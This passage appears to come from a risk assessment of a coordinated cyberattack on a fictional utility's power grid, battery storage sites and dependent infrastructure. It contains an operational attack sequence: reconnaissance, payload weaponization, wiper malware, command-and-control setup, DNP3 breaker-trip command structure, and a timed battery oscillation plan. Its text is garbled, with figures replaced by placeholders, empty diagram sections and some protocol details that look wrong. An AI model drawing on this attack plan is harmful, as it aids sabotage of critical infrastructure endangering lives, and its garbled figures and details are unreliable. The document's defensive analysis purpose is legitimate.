| Time                    | Event                                                                              | Cumulative Impact                                                               |
| ----------------------- | ---------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| **T+0**           | Attacker injects Modbus commands to all 54 BESS sites via compromised Retailer API | 54 sites receiving malicious thermal setpoint modifications                     |
| **T+15 min**      | First cells reach 120°C across all sites due to disabled cooling and overcharge   | 54 sites in Stage 1 thermal runaway progression                                 |
| **T+30 min**      | First cells reach 150°C, internal short circuits develop                          | 54 sites in Stage 2, evacuation alerts triggered                                |
| **T+45 min**      | First thermal runaway events (cathode decomposition)                               | 10-15 sites reach Stage 4 (statistical variation in battery age/condition)      |
| **T+60 min**      | Cell-to-cell propagation begins at affected sites                                  | 15-25 sites with spreading thermal runaway                                      |
| **T+2 hours**     | Multiple container fires, fire brigades overwhelmed                                | 30-40 sites with active fires, regional fire emergency declared                 |
| **T+4 hours**     | Peak fire intensity, toxic gas plumes over residential areas                       | 40-50 sites with fires, evacuation orders for 500m radius per site              |
| **T+12 hours**    | Self-extinguishing phase begins (fuel exhaustion)                                  | Firefighting resources from across NSW deployed                                 |
| **T+24-48 hours** | Fires fully extinguished, damage assessment begins                                 | Total loss of 54 BESS assets, environmental contamination, potential fatalities |

**Energy Release Calculations:**

Each 5 MWh BESS contains approximately:

```
Battery Specifications (typical community BESS):
- Capacity: 5 MWh = 5,000 kWh = 18,000 MJ
- Cell count: ~13,500 cells (280 Ah, 3.2V LFP or NMC chemistry)
- Cell mass: 0.5 kg each
- Total battery mass: 6,750 kg

Thermal Runaway Energy Release:
- Heat of reaction: 2,500 kJ/kg (exothermic decomposition)
- Total energy: 6,750 kg × 2,500 kJ/kg = 16,875,000 kJ = 16,875 MJ

TNT Equivalent:
- TNT energy density: 4.184 MJ/kg
- TNT equivalent: 16,875 MJ / 4.184 MJ/kg = 4,033 kg TNT per BESS

54 BESS sites: 4,033 kg × 54 = 217,782 kg TNT equivalent total energy
```

**CRITICAL NOTE:** This TNT equivalent represents **total thermal energy released over 4-12 hours**, not instantaneous detonation. Lithium-ion thermal runaway is a **deflagration** (subsonic burning) not a **detonation** (supersonic explosion). However, the energy release is still sufficient to:

- Destroy the battery container and adjacent equipment
- Create toxic gas plumes (HF, CO, particulates) requiring 500m evacuation radius
- Ignite nearby structures and vegetation
- Cause serious injury or fatality to nearby personnel

### 2.3.3 Fire Suppression Failure Analysis

Community BESS installations typically use one of three fire suppression technologies:

**Fire Suppression Technologies:**

| Technology                            | Mechanism                     | Effectiveness Against Li-Ion Fire                   | Limitations                                                    |
| ------------------------------------- | ----------------------------- | --------------------------------------------------- | -------------------------------------------------------------- |
| **Water Deluge**                | Cooling through thermal mass  | 60-70% (requires sustained application)             | Requires 50,000+ liters, runoff contamination, reignition risk |
| **FM-200 / Novec 1230**         | Oxygen displacement + cooling | 40-50% (ineffective once thermal runaway initiated) | Cannot extinguish self-sustaining exothermic reaction          |
| **Aerosol (Condensed Aerosol)** | Free radical suppression      | 30-40% (insufficient for severe thermal runaway)    | Limited mass, overwhelmed by large battery fires               |

**Critical Finding:** No fire suppression technology can reliably extinguish a lithium-ion battery fire once thermal runaway is established. The exothermic reaction is **self-sustaining** (cathode provides its own oxygen source), making traditional oxygen-displacement or cooling approaches ineffective.

**Industry Precedents:**

- **Arizona McMicken BESS Fire (April 2019):** 2 MWh Tesla Powerpack, thermal runaway led to explosion injuring 4 firefighters, 5-hour fire suppression effort
- **Moss Landing BESS Fire (September 2022):** 300 MWh facility, thermal runaway in single container, 30,000+ liters of water required, 5-hour suppression
- **Beijing BESS Fire (April 2021):** 25 MWh facility, thermal runaway killed 2 firefighters, 8-hour suppression effort

**Cascading Failure Through Firefighting Resource Exhaustion:**

NSW Fire and Rescue has approximately:

- **70 fire stations** in ACME Inc. service territory
- **120 pumper appliances** (typical capacity: 3,000 liters)
- **15 hazmat-rated teams** capable of lithium-ion fire response

A simultaneous 54-site thermal runaway event would require:

```
Firefighting Resource Requirements:

Per-Site Requirements:
- 2-3 pumper appliances (50,000+ liters water over 4-8 hours)
- 1 hazmat team (toxic gas monitoring)
- 8-12 firefighters per site
- 4-8 hour continuous operation

54-Site Simultaneous Event:
- 108-162 pumper appliances required (actual available: 120)
- 54 hazmat teams required (actual available: 15)
- 432-648 firefighters required (total NSW F&R: ~7,000, but geographically dispersed)

Result: COMPLETE RESOURCE EXHAUSTION within first 10-15 sites
```

This creates a **secondary cascading failure** where fires at sites 16-54 burn uncontrolled for extended periods, increasing:

- Structural damage and environmental contamination
- Toxic gas exposure for nearby residents
- Risk of fire spread to adjacent structures
- Potential for fatalities among late-arriving firefighters entering high-toxicity environments

---

## 3. Cascade Propagation Modeling

### 3.1 Four-Tier Cascade Model

The cascading failure propagates through four tiers, each amplifying the affected customer base by an order of magnitude. This multi-tier cascade pattern is consistent with McKenney's (2024) analysis of European Network of Transmission System Operators for Electricity (ENTSO-E) system split risks: "ENTSO-E studies confirm that declining inertia significantly increases the risk of system splits leading to high RoCoF (>1 Hz/s) and potential widespread blackouts in future scenarios." McKenney documents that ENTSO-E "Project Inertia" studies for 2030-2040 scenarios identify an increasing number of "global severe splits" where both separated systems collapse due to uncontrollable RoCoF -- precisely the multi-tier cascade pattern modeled here.

The following diagram models the complete propagation chain from initial attack execution to system-wide collapse:


### 3.2 Tier-by-Tier Impact Quantification

**Tier 1 -- Immediate Impact Zone (T+0 to T+15 minutes):**

- Geographic Area: 5 km radius around targeted substation cluster
- Customers Affected: 8,000-12,000 residential, 200-400 commercial
- Duration: 2-4 hours with priority restoration
- Economic Impact: [investment required] million

**Tier 2 -- Local Cascade Zone (T+15 to T+30 minutes):**

- Geographic Area: 3 adjacent substations, 15 km radius
- Customers Affected: 80,000-120,000 residential, 2,000-3,500 commercial
- Duration: 8-16 hours with sequential restoration
- Economic Impact: [investment required] million

**Tier 3 -- Regional Cascade Zone (T+30 to T+60 minutes):**

- Geographic Area: 8 additional substations, 40 km radius
- Customers Affected: 400,000-600,000 residential, 8,000-15,000 commercial
- Duration: 16-36 hours
- Economic Impact: [investment required] million

**Tier 4 -- System-Wide Collapse (T+60 to T+120 minutes, worst case):**

- Geographic Area: Full ACME Inc. network plus adjacent DNSPs
- Customers Affected: 1.0-1.5 million residential, 25,000-40,000 commercial
- Duration: 24-72 hours
- Economic Impact: [investment required] million - [investment required] billion

### 3.3 Attack Execution Timeline

The following table details the minute-by-minute progression of the attack from initial API authentication through full cascade:

| Time    | Attacker Action           | Technical Detail                                       | Grid Response                        |
| ------- | ------------------------- | ------------------------------------------------------ | ------------------------------------ |
| T+0:00  | API authentication        | Compromised retailer OAuth token establishes session   | Normal operation                     |
| T+0:05  | Asset enumeration         | Query returns 54 controllable BESS units               | Normal operation                     |
| T+0:10  | Geographic clustering     | Identify 18 batteries within 5 km of target substation | Normal operation                     |
| T+0:15  | First oscillation command | All 18 batteries: "Charge 100%, duration 60s"          | Grid: +90 MW load                    |
| T+1:15  | Second oscillation        | All 18 batteries: "Discharge 100%, duration 60s"       | Grid: -90 MW load (180 MW swing)     |
| T+2:15  | Third oscillation         | Repeat charge cycle at 0.3 Hz effective frequency      | Frequency: 50 Hz to 50.03 Hz         |
| T+10:00 | Amplitude growth          | 10 cycles completed, oscillation amplitude +/- 0.15 Hz | Protection relays detect instability |
| T+15:00 | Protection cascade        | Under-frequency relays trip at 49.85 Hz threshold      | Load shedding initiated              |
| T+18:00 | Regional expansion        | Load shedding causes voltage sag across 3 substations  | 100K customers offline               |
| T+22:00 | Stabilization attempt     | AEMO Emergency Frequency Control System activated      | Blackout contained                   |
| T+26:00 | Restoration begins        | Manual substation restoration commences                | Progressive re-energization          |

### 3.4 Multi-Substation Coordinated Attack Integration

The most severe cascading failure scenario integrates multiple attack vectors simultaneously: BESS oscillation, thermal runaway, and protocol exploitation of substation automation systems.

**Sandworm Coordinated Attack Methodology:**

As documented in EE-CTI-005 (Sandworm Energy Grid Campaign), the Russian GRU Unit 74455 has demonstrated coordinated multi-substation attack capability across three Ukrainian grid attacks (2015, 2016, 2022). Key characteristics:

- **implementation period required reconnaissance timeline** to map substation architecture and identify critical nodes
- **IEC 61850 GOOSE injection** to trigger protection relay cascades
- **DNP3 Direct Operate commands** to open circuit breakers simultaneously
- **Modbus TCP exploitation** (via FrostyGoop evolution) for physical damage
- **Wiper malware deployment** (ORCSHRED, SOLOSHRED, CADDYWIPER) to destroy forensic evidence and delay recovery

**ACME Inc. Attack Surface:**

| Infrastructure Component    | Quantity    | Protocol Vulnerability                                   | Sandworm Demonstrated Capability                     |
| --------------------------- | ----------- | -------------------------------------------------------- | ---------------------------------------------------- |
| **Major Substations** | 185         | IEC 61850 GOOSE (unencrypted, no authentication)         | Industroyer malware, proven in Ukraine 2016          |
| **Distribution RTUs** | 32,000+     | DNP3 (unencrypted, optional authentication not deployed) | BlackEnergy/Industroyer, proven in Ukraine 2015/2016 |
| **Community BESS**    | 54 (270 MW) | Modbus TCP (plaintext, no authentication)                | FrostyGoop malware, proven in Ukraine 2024           |
| **Protection IEDs**   | 10,000+     | IEC 61850 GOOSE peer-to-peer                             | Industroyer GOOSE injection module                   |

**Integrated Attack Scenario: "Coordinated Infrastructure Collapse"**


**185-Substation Synchronized Trip Scenario:**

ACME Inc. operates 185 major substations classified as "critical" for grid stability. A coordinated DNP3 Direct Operate attack, modeled on the Industroyer malware framework, could simultaneously trip circuit breakers across these substations.

**Attack Execution (Sandworm Methodology):**

```
Reconnaissance Phase (Months -12 to -8):
1. Compromised engineering workstation provides access to SCADA network
2. Extract DNP3 outstation configuration files from SCADA master
3. Map circuit breaker DNP3 addresses (typical: Point Index 1-50 per substation)
4. Identify critical load transfer paths and interconnection points

Weaponization Phase (Months -8 to -2):
1. Develop custom DNP3 payload (Industroyer module adaptation)
2. Test against vendor-specific RTU firmware (Hitachi RTU560 known deployment)
3. Incorporate wiper malware (ORCSHRED, SOLOSHRED) for forensic destruction
4. Establish command-and-control channel via compromised 4G vendor modem

Pre-Positioning Phase (Months -2 to 0):
1. Deploy malware to compromised engineering workstation
2. Schedule timed execution via Windows Task Scheduler
3. Establish redundant C2 channels (primary: 4G modem, backup: VPN)

Execution Phase (T+0):
1. Malware activates, establishes 185 DNP3 sessions simultaneously
2. Send Direct Operate commands (Function Code 5: Operate - no select required)
3. Target: Circuit breaker control points (DNP3 Binary Output objects)
4. Command: TRIP (open circuit breaker, de-energize substation)

Timing: All 185 substations receive TRIP commands within 5-second window
```

**DNP3 Direct Operate Command Structure:**

```
DNP3 Application Layer Protocol Data Unit (APDU):

Function Code: 5 (Direct Operate - No ACK)
Object Group: 12 (Binary Output Command)
Object Variation: 1 (Control Relay Output Block)

CROB Structure:
- Control Code: 0x01 (TRIP/Close, Queue operation)
- Count: 1 (execute once)
- On-Time: 1000 ms (1 second pulse)
- Off-Time: 0 ms (not applicable)
- Status: 0x00 (success expected)

Target: Point Index 1 (main circuit breaker)
Result: Substation de-energized, protection cascade begins
```

**Cascade Propagation Through 185 Substations:**

When 185 major substations trip simultaneously:

```
Grid Impact Timeline:

T+0 seconds: 185 substations de-energized
  - Immediate loss: 2,800 MW load (assuming avg 15 MW per substation)
  - Grid frequency response: Sudden loss of 2,800 MW load → frequency RISES

T+5 seconds: AEMO Frequency Response
  - Frequency rises to 50.3-50.5 Hz (oversupply condition)
  - Automatic generation control (AGC) begins ramping down generators
  - RoCoF: +0.4 Hz/s (moderate, but climbing)

T+30 seconds: Protection System Response
  - Over-frequency protection relays activate at 50.5 Hz threshold
  - Generator protection trips begin (thermal limits, voltage regulation)
  - Loss of synchronous generation: 800-1,200 MW

T+60 seconds: Frequency Reversal
  - Generator trips remove 1,200 MW generation
  - Net deficit: 1,200 MW generation loss vs. 2,800 MW load loss
  - Frequency begins falling: 50.5 Hz → 50.0 Hz → 49.7 Hz

T+90 seconds: Under-Frequency Load Shedding (UFLS)
  - UFLS Stage 1: 49.85 Hz - shed 5% of load (additional 500 MW)
  - UFLS Stage 2: 49.70 Hz - shed 10% of load (additional 1,000 MW)
  - Cascading load shedding across interconnected regions

T+120 seconds: System Islanding
  - NSW grid separates from National Electricity Market (NEM)
  - Queensland Interconnector (QNI) trips due to frequency mismatch
  - Victoria Interconnector (VNI) trips due to thermal overload
  - NSW operates as isolated island (insufficient local generation)

T+180 seconds: Black System
  - Remaining synchronous generators trip on under-frequency protection
  - Grid frequency collapses below 47 Hz
  - Total system blackout: 1.2-1.5 million customers

Recovery: 24-72 hours (black start procedures, sequential restoration)
```

**Comparison to Historical Precedents:**

| Event                                | Substations Affected                | Customers Impacted        | Restoration Time      | Attack Method                                                                  |
| ------------------------------------ | ----------------------------------- | ------------------------- | --------------------- | ------------------------------------------------------------------------------ |
| **Ukraine 2015 (BlackEnergy)** | 30 substations                      | 225,000                   | 6 hours               | Manual circuit breaker operations via compromised SCADA                        |
| **Ukraine 2016 (Industroyer)** | 1 substation (330kV transmission)   | 20% of Kyiv (~300,000)    | 1 hour                | Automated IEC 61850/DNP3 protocol exploitation                                 |
| **South Australia 2016**       | Cascading relay trips (not cyber)   | 850,000 (entire state)    | 6-24 hours            | Natural weather event triggering protection cascade                            |
| **ACME Inc. Scenario**         | **185 substations (modeled)** | **1.2-1.5 million** | **24-72 hours** | **Coordinated DNP3 Direct Operate + BESS oscillation + thermal runaway** |

The ACME Inc. scenario represents a **6x escalation** in substation count compared to Ukraine's largest demonstrated attack, with **5x customer impact** and **4x longer restoration** due to:

1. **Larger geographic area** (970 km² vs. single city)
2. **More complex grid topology** (interconnected NEM vs. isolated Ukrainian oblasts)
3. **Concurrent physical damage** (BESS thermal runaway destroying equipment)
4. **Forensic destruction** (wiper malware eliminating recovery configuration data)

### 3.5 Grid Island Formation and Collapse Mechanics

When major portions of an interconnected grid lose synchronization, the system fragments into isolated "islands" -- electrically separated regions that must each maintain their own generation-load balance independently.

**NSW Grid Island Formation Triggers:**

| Interconnector                 | Thermal Rating | Protection Threshold      | Island Formation Condition                                           |
| ------------------------------ | -------------- | ------------------------- | -------------------------------------------------------------------- |
| **Queensland-NSW (QNI)** | 1,078 MW       | 1,200 MW (110% of rating) | Power flow >1,200 MW for >10 seconds OR frequency difference >0.5 Hz |
| **Victoria-NSW (VNI)**   | 1,350 MW       | 1,500 MW (110% of rating) | Power flow >1,500 MW for >10 seconds OR frequency difference >0.5 Hz |
| **Snowy Hydro Link**     | 2,100 MW       | 2,300 MW (110% of rating) | Power flow >2,300 MW for >10 seconds                                 |

**Island Survival Criteria:**

For an electrical island to survive without cascading to black system, it must satisfy:

```
Island Stability Conditions:

1. Generation-Load Balance:
   |P_generation - P_load| < 10% of total island load

2. Frequency Stability:
   48.8 Hz < f < 51.2 Hz (AEMO normal operating band: 49.85-50.15 Hz)

3. Voltage Stability:
   0.90 pu < V < 1.10 pu at all major buses

4. Sufficient Inertia:
   H_total > 2.0 seconds (minimum for stable frequency control)

5. Reserve Capacity:
   Spinning reserve > Largest single contingency (typically 600-800 MW in NSW)
```

**NSW Island Analysis After 185-Substation Trip:**

```
Pre-Attack NSW Grid (Normal Operation):
- Total generation: 8,500 MW
- Total load: 8,200 MW
- Synchronous inertia: H = 4.2 seconds
- Spinning reserve: 800 MW
- Interconnector imports: 300 MW (QNI + VNI)

Post-Attack NSW Island (T+120 seconds):
- Total generation: 6,200 MW (2,300 MW lost due to protection trips)
- Total load: 5,400 MW (2,800 MW lost due to substation trips)
- Synchronous inertia: H = 2.8 seconds (generator trips removed inertia)
- Spinning reserve: 200 MW (depleted during frequency oscillations)
- Interconnector status: ISOLATED (frequency mismatch tripped QNI/VNI)

Island Survival Assessment:
1. Generation-Load Balance: 6,200 - 5,400 = +800 MW (15% surplus) ❌ FAIL
2. Frequency Stability: 50.4 Hz (rising due to surplus) ⚠️ MARGINAL
3. Voltage Stability: 0.92-1.08 pu ✓ PASS
4. Sufficient Inertia: H = 2.8 seconds ✓ MARGINAL
5. Reserve Capacity: 200 MW < 600 MW ❌ FAIL

Outcome: ISLAND COLLAPSE within 3-5 minutes
  - Over-frequency protection trips additional generation
  - Frequency oscillation with insufficient damping (low inertia)
  - Voltage instability in load centers (Sydney metro)
  - Black system cascade begins at T+180 seconds
```

---

## 4. Grid Interdependency Analysis

### 4.1 Six Critical Infrastructure Systems

The electricity distribution network serves as the foundational layer upon which six interdependent critical infrastructure systems depend. Failure in the primary electrical grid propagates through these systems in cascading waves, each amplifying the consequences of the initial outage.



### 4.2 Water Infrastructure Cascade

Water supply infrastructure is the most consequential secondary failure domain. Without electricity, pumping stations cannot maintain pressure, leading to a cascading timeline:

| Hours Since Blackout | Water Infrastructure Status            | Population Impact                                  | Health Risk  |
| -------------------- | -------------------------------------- | -------------------------------------------------- | ------------ |
| 0-2 hours            | Reservoir reserves sustaining pressure | Normal service                                     | None         |
| 2-4 hours            | Pressure drop from 30 to 10 psi        | Upper floors lose service (15% of population)      | Low          |
| 4-6 hours            | Complete pressure loss                 | All customers without water (100%)                 | Moderate     |
| 6-12 hours           | Emergency reserves depleted            | Hospitals request water tankers                    | High         |
| 12-24 hours          | Wastewater system backup               | Sanitation failure, contamination risk             | Critical     |
| 24-48 hours          | Public health emergency                | Disease outbreak risk (gastroenteritis, hepatitis) | Catastrophic |

Emergency water supply requirements: 87 sites at 10,000 litres per site = 870,000 litres capacity. Hospital priority allocation: 12 facilities at 50,000 litres per day = 600,000 litres per day. Emergency cost: [investment required] million per day.

### 4.3 Hospital and Medical Infrastructure Cascade

Medical facilities present the highest consequence dependency due to the zero-tolerance nature of life support systems:

| Facility Type                  | Count | Backup Power      | Maximum Downtime Tolerance      | Failure Mode               |
| ------------------------------ | ----- | ----------------- | ------------------------------- | -------------------------- |
| **Major Hospitals**      | 12    | 24-72 hour diesel | 0 hours (life support)          | Patient safety incidents   |
| **Dialysis Centers**     | 28    | 0-4 hour battery  | 2-8 hours before patient crisis | Renal failure progression  |
| **Aged Care Facilities** | 84    | 0-8 hour diesel   | 4-12 hours before HVAC failure  | Heat stress/hypothermia    |
| **Medical Clinics**      | 420+  | None              | 4-6 hours                       | Vaccine/biologics spoilage |
| **Pharmacies**           | 320   | None              | 2-4 hours (refrigeration)       | Insulin degradation        |

Critical patient populations at immediate risk: 240 intensive care patients on ventilators (life support failure at 4-24 hours when diesel reserves deplete), 4,200 patients on home oxygen concentrators (immediate respiratory distress at T+0, as home units have no battery backup), and 1,800 dialysis patients (medical emergency after two missed treatments at 48 hours).

### 4.4 Telecommunications and Emergency Services

Mobile network failure creates a secondary crisis by severing the population from emergency services:

- 420 cell towers with 2-8 hour battery backup reach zero coverage between T+2 and T+8 hours
- 70% of emergency 000 calls originate from mobile networks; landline capacity covers only 30% of normal call volume
- Ambulance response time increases from 12 minutes (normal) to 45 minutes (incident) -- a 275% degradation
- Hospital emergency department presentations surge from 3,500 per day (normal) to 8,500 per day (incident) -- a 243% increase

### 4.5 Transport System Cascade

Transport infrastructure suffers immediate and severe degradation:

- 3 electric rail lines halt immediately (180,000 daily passengers diverted to roads)
- 1,240 traffic signal intersections go dark, increasing accident rates by 180% based on historical data from the 2019 Sydney outage
- Estimated traffic casualties: 15-35 serious accidents in 24 hours, with 0-2 fatalities at high-speed intersections
- Diesel reserves for emergency vehicles deplete at T+18 hours, degrading ambulance and fire truck operations

### 4.6 Defence and National Security Infrastructure

RAAF Base Richmond, naval facilities in the Sydney area, and defence data centres are all within the ACME Inc. service territory. A 30-50% reduction in sortie generation capability at RAAF Richmond, degradation of naval munitions cooling systems, and 40-60% reduction in tactical communications bandwidth constitute a national security incident requiring Defence Minister briefing and triggering potential Parliamentary inquiry.

**RAAF Base Richmond Impact Analysis:**

```
RAAF Richmond (NSW) - Critical Defence Infrastructure:

Normal Operations:
- Base load: 18 MW (barracks, hangars, control tower, fueling systems)
- Peak load: 25 MW (full flight operations + facilities)
- Backup generation: 3x 5 MW diesel generators (20 MW total, 8-hour fuel capacity)
- Mission-critical loads: Air traffic control, secure communications, fuel pumps

Blackout Timeline:

T+0 to T+5 minutes: Grid Power Loss
- Automatic transfer to backup diesel generators
- Air traffic control maintains operations (critical safety system)
- In-flight aircraft diverted to alternate airfields (Canberra, Williamtown)
- Runway lighting operational on backup power

T+5 minutes to T+2 hours: Backup Generator Operations
- Flight operations SUSPENDED (takeoffs/landings prohibited)
- Fuel transfer systems operational but severely limited
- Secure communications degraded to backup satellite systems
- Personnel accountability checks (base lockdown protocols)

T+2 hours to T+8 hours: Fuel Reserves Depleting
- Diesel generators consuming 400 liters/hour each = 1,200 liters/hour total
- Total fuel capacity: 9,600 liters (8-hour runtime at full load)
- Fuel resupply requires road tanker access (potentially blocked by traffic chaos)

T+8 hours to T+24 hours: Generator Shutdown
- Critical loads prioritized: Communications, security, minimal lighting
- All non-essential systems offline (hangars, workshops, accommodation HVAC)
- Base operational readiness: 20% of normal capacity
- RAAF capability across NSW region: SEVERELY DEGRADED

National Security Implications:
- Search and rescue operations delayed or cancelled
- No air defence response capability for NSW airspace
- Disaster relief operations (e.g., bushfire water bombing) impossible
- Special operations deployment timelines extended 12-24 hours
- Potential violation of ANZUS treaty obligations if attack during regional crisis
```

**Garden Island Naval Base Impact:**

```
Garden Island (Sydney Harbour) - East Coast Principal Naval Base:

Critical Systems Dependent on ACME Inc. Grid:
- Submarine support facilities (HMAS Platypus)
- Surface vessel replenishment systems
- Naval ammunition storage refrigeration (temperature-critical munitions)
- Secure communications (Defence Secret and Above)
- Personnel accommodation (1,200+ naval personnel)

Blackout Cascade:

T+0 to T+30 minutes: Initial Response
- Diesel generators start (6x 3 MW units = 18 MW total)
- Submarines in port switch to battery power (24-48 hour endurance)
- Surface vessels activate onboard generation (independent of shore power)
- Munitions storage facilities on backup cooling (critical: Harpoon missiles, Mark 48 torpedoes)

T+30 minutes to T+4 hours: Operational Degradation
- Submarine battery depletion begins (cannot operate ventilation/life support simultaneously)
- Surface vessel berthing compromised (no refueling, no resupply)
- Munitions storage temperature rising (cooling backup limited to 4 hours)
- Secure communication to Defence HQ Canberra via satellite only (bandwidth limited)

T+4 hours to T+24 hours: Critical Equipment Risk
- Munitions storage exceeds safe temperature limits (28°C threshold for some weapons)
- Submarine operations shift to emergency procedures (reduced crew, minimal systems)
- No new vessel arrivals possible (berthing services offline)
- Base security systems degraded (electronic access control, CCTV offline)

T+24 hours to T+72 hours: National Defence Posture Degradation
- East coast naval operations effectively suspended
- Submarine force unavailable for tasking (battery depleted, unable to dive)
- Munitions inventory compromised (10-15% requiring disposal due to thermal exposure)
- Fleet reconstitution requires implementation period required after power restoration
```

### 4.7 Economic and Financial Infrastructure Cascade

Beyond direct customer losses, the financial services infrastructure dependent on electricity supply creates second-order economic consequences that amplify rapidly during extended outages.

**Banking and Financial Services Impact:**

| Hours Since Blackout  | Banking Infrastructure Status                            | Customer Impact                                          | Economic Consequence                                 |
| --------------------- | -------------------------------------------------------- | -------------------------------------------------------- | ---------------------------------------------------- |
| **0-2 hours**   | ATMs operational on battery (UPS), branches on generator | Minimal (normal cash reserves)                           | Negligible                                           |
| **2-4 hours**   | ATM network failing, generator fuel consumption critical | Cash withdrawal failures, card payment disruption        | Retail sales decline 40-60%                          |
| **4-8 hours**   | Most ATMs offline, branch generators under fuel stress   | Cash shortage panic, electronic payment network degraded | Retail commerce near-complete halt                   |
| **8-24 hours**  | Complete ATM network failure, branch closures            | Public panic, cash hoarding, grocery store closures      | Supply chain disruption, food security concerns      |
| **24-48 hours** | Data center backup generation fuel exhausted             | Core banking systems offline, no transactions possible   | Economic activity suspended, payroll systems failing |
| **48-72 hours** | Extended outage triggers bank run preparation            | Government emergency cash distribution required          | National financial stability concerns                |

**Stock Exchange and Trading Infrastructure:**

The Australian Securities Exchange (ASX) data centers and trading infrastructure are located within Sydney's central business district, with critical components in the ACME Inc. service territory.

```
ASX Trading Infrastructure Dependencies:

Primary Data Center (Equinix SY3, Sydney):
- Grid power: 15 MW (normal operations)
- Backup: N+1 diesel generators (48-hour fuel capacity)
- Criticality: National financial markets, [investment required] trillion market capitalization

Secondary Data Center (Equinix SY1, Sydney):
- Grid power: 8 MW (normal operations)
- Backup: N+1 diesel generators (48-hour fuel capacity)
- Failover capability: Automatic within 5 minutes

Blackout Scenario:

T+0 to T+5 minutes: Automatic Failover
- Primary data center transfers to diesel generators
- Trading continues uninterrupted (market participants unaware)
- ASX monitoring initiates fuel resupply coordination

T+5 minutes to T+24 hours: Normal Operations Maintained
- Diesel generators operating nominally
- Fuel consumption: 600 liters/hour (15 MW load)
- Total reserves: 28,800 liters (48-hour capacity)

T+24 to T+48 hours: Fuel Resupply Critical
- Fuel trucks attempting delivery through traffic chaos
- ASX considers trading halt if resupply uncertain
- Regulatory notifications to ASIC and Reserve Bank

T+48 to T+72 hours: Extended Outage Crisis
- Fuel reserves depleting despite emergency resupply efforts
- ASX announces trading suspension (unprecedented in modern era)
- Global market consequences: AUD currency volatility, international investor confidence
- Government intervention required (National Cabinet convened)
```

**Economic Multiplier Effects:**

```
Direct Economic Loss: Customer outage costs (calculated in Section 5)
  - Residential: [investment required]
  - Commercial: [investment required]
  - Industrial: [investment required]

Indirect Economic Loss (24-hour outage):
  - Stock market trading suspension: [investment required] billion daily trading volume lost
  - Banking system disruption: [investment required] billion daily transaction volume
  - Retail commerce halt: [investment required] million daily sales (NSW region)
  - Logistics disruption: [investment required] million daily freight movement
  - Tourism impact: [investment required] million daily (hotel cancellations, transportation)

Tertiary Economic Loss (48-72 hour outage):
  - Supply chain breakdown: [investment required] billion (perishable goods, manufacturing inventory)
  - Insurance claims: [investment required] million (business interruption, property damage)
  - Lost productivity: [investment required] billion (workforce unable to work, telework impossible)
  - Recovery costs: [investment required] million (emergency services, infrastructure repair)

Total Economic Impact (72-hour scenario):
  Direct + Indirect + Tertiary = [investment required]
```

### 4.8 Cross-Sector Dependency Matrix

The following matrix quantifies the interdependency strength between electricity supply and dependent critical infrastructure:

| Dependent Sector             | Electricity Dependency | Maximum Downtime Tolerance      | Backup Power Availability          | Cascade Multiplier                                                |
| ---------------------------- | ---------------------- | ------------------------------- | ---------------------------------- | ----------------------------------------------------------------- |
| **Water Supply**       | 95%                    | 2-4 hours (reservoir reserves)  | 10% (critical pumping stations)    | 2.5x (water loss triggers hospital/sanitation cascade)            |
| **Hospitals**          | 98%                    | 0 hours (life support systems)  | 80% (24-72 hour diesel)            | 3.0x (medical emergencies trigger transport/emergency services)   |
| **Telecommunications** | 90%                    | 2-8 hours (battery backup)      | 20% (critical sites only)          | 2.8x (communication loss triggers security/coordination failure)  |
| **Transport**          | 85%                    | 0 hours (traffic signals, rail) | 5% (emergency services only)       | 2.2x (mobility loss triggers supply chain/emergency response)     |
| **Financial Services** | 92%                    | 4-8 hours (UPS/generator)       | 40% (data centers, major branches) | 2.0x (economic activity halt triggers employment/supply)          |
| **Defence**            | 88%                    | 8-12 hours (generator fuel)     | 60% (bases have backup generation) | 1.5x (limited civilian cascade but national security consequence) |

**Cascade Multiplier Explanation:**

The cascade multiplier represents how failure in the dependent sector amplifies the original blackout's impact:

- **2.5x multiplier (Water):** Water supply failure triggers hospital patient care crisis (dialysis, sterilization), public health emergency (sanitation), and firefighting capability loss (BESS fires uncontrolled)
- **3.0x multiplier (Hospitals):** Medical system overload triggers emergency services collapse (ambulance delays), increases fatalities from time-critical conditions (cardiac, stroke, trauma), and creates refugee crisis (hospital evacuations)
- **2.8x multiplier (Telecommunications):** Communication loss triggers security coordination failure (police/fire/ambulance cannot coordinate), public panic (misinformation spread), and economic disruption (no electronic transactions)

### 4.9 Cascading Timeline: Comprehensive 72-Hour Projection

```mermaid
gantt
    title Cascading Infrastructure Failure Timeline (72-Hour Blackout Scenario)
    dateFormat HH:mm
    axisFormat %H:%M

    section Electrical Grid
    185 substations trip :crit, 00:00, 5m
    Grid frequency collapse :crit, 00:05, 15m
    Total blackout 1.2M customers :crit, 00:20, 4320m

    section Water Infrastructure
    Reservoir pressure sustained : 00:00, 120m
    Upper floor service loss : 02:00, 120m
    Complete pressure loss : 04:00, 480m
    Hospital water supply critical :crit, 12:00, 720m
    Wastewater system backup :crit, 24:00, 2880m

    section Medical System
    Life support on UPS/generator : 00:00, 60m
    Home oxygen patients critical :crit, 01:00, 120m
    Diesel fuel depletion begins :crit, 04:00, 1200m
    Dialysis patient crisis :crit, 48:00, 1440m

    section Telecommunications
    Cell towers on battery : 00:00, 180m
    70% network coverage loss :crit, 03:00, 300m
    Emergency 000 service degraded :crit, 08:00, 3840m

    section Transport
    Rail services halt :crit, 00:00, 4320m
    Traffic signal failures :crit, 00:00, 1440m
    Emergency vehicle fuel depletion : 18:00, 3120m

    section Financial Services
    ATM battery depletion : 02:00, 360m
    Branch generator fuel stress : 08:00, 960m
    Core banking systems offline :crit, 24:00, 2880m
    Economic activity suspended :crit, 48:00, 1440m

    section Defence Infrastructure
    RAAF Richmond backup power : 00:00, 480m
    Flight operations suspended :crit, 00:05, 4315m
    Garden Island munitions risk :crit, 04:00, 4080m
    Naval operations suspended :crit, 24:00, 2880m

    section BESS Thermal Events
    Thermal runaway initiation :crit, 00:45, 75m
    Multiple container fires :crit, 02:00, 600m
    Firefighting resources exhausted :crit, 04:00, 4080m
    Toxic gas evacuations :crit, 04:00, 3840m
```

---

## 5. Economic Impact Assessment

### 5.1 Impact Summary

| Impact Category                               | Low Estimate                    | High Estimate                   | Most Likely (P50)               |
| --------------------------------------------- | ------------------------------- | ------------------------------- | ------------------------------- |
| **Direct Grid Damage**                  | [investment required]           | [investment required]           | [investment required]           |
| **Customer Economic Loss**              | [investment required]           | [investment required]           | [investment required]           |
| **Regulatory Penalties and Litigation** | [investment required]           | [investment required]           | [investment required]           |
| **Reputational Damage (24-month)**      | [investment required]           | [investment required]           | [investment required]           |
